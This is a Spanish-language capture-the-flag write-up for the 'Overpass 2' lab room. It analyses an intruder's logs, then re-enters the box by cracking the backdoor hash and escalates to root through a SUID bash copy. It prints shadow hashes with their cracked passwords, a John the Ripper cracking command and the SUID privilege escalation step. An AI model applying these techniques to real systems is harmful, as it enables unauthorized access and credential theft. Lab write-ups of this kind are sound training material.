 # Overpass 2
Room muy guapa, mezcla forensic y pentesting
## Log Analysys

Mediante el analasis de los logs podemos saber exactamente el metodo usado en la intrusión

Vemos que en /development se ha subido una rev shell a la que se ha accedido bajo el endpoint /uploads/ 

Una vez dentro el atacante invoco una TTY, y desde ella paso al user james usando las siguientes creds
```
james:whenevernoteartinstant
```
Mediante sudo -l pudo ver que james podia ejecutar cualquier comado como sudoer
```
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```
Tras esto leyo /etc/shadow en busca de las contraseñas de otros usuarios
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
Encontro esos 5 hashes e instalo la siguiente backdoor
```
https://github.com/NinjaJc01/ssh-backdoor
```
Analizando el codigo encontrasmos el salt por defecto usado , y desde el pcap vemos que ha cambiado el hash por otro
```
SALT: 1c362db832f3f864c8c2fe05f2002a05
HASH: 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```


## Intial Scan
```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
```
## Enum
Tenemos del los logs 5 hashes para un acceso inicial asi como la password de james, podemos intentar dehashear los hashes y ver si podemos acceder por ahi
```
muirland:1qaz2wsx
szymex:abcd123
bee:secret12 
paradox:secuirty3     
james:whenevernoteartinstant
```
Parece que no va por ahi, veamos entonces si seguimos teniendo el file upload, lo comprobamos y lo han quitado, veamos si podemos crackear entonces la pass del backdoor
La almacenamos tal que asi en un archivo:
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05
```
Y la crackeamos asi:
```
/home/pj/.JohnTheRipper/run/john hashbackdoor.txt --wordlist=/home/pj/rockyou.txt --format='dynamic=sha512($p.$s)'
```
Con esta información intentemos entrar nosotros, pero por el puerto 2222

## Privesc 
Tenemos shell como james pero parece que no podemos checkear nuestros permisos para ejecutar comandos como sudo ya que nos han cambiado la contraseña :c
Si listamos todo el directorio veremos un archivo raro
```
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
```
Este SUID file es una copia de /bin/bash , ponemos el flag -p 
```
./.suid_bash -p
#id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```
